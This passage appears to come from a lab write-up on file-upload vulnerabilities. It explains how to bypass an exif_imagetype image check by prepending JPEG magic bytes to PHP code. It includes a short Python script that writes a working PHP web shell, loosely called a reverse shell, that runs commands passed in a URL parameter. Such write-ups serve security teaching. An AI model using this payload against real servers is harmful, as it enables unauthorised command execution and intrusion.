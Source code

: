 <figure><img src=".gitbook/assets/image (73).png" alt=""><figcaption></figcaption></figure>

Almost the same code, except this time the MIME type/Magic bytes \[ [To Know More](https://en.wikipedia.org/wiki/List\_of\_file\_signatures) ] of the uploaded file is checked using the `exif_imagetype` function to make sure the uploaded file an image.

We can bypass this check by creating a php rev shell with prepended by the magic byte of an jpeg file.

We can create such a file using simple python script:

```python
# PHP reverse shell of type image
fh = open('shell.php', 'wb')
fh.write(b'\xFF\xD8\xFF\xE0' + b'<? passthru($_GET["cmd"]); ?>')
fh.close()
```
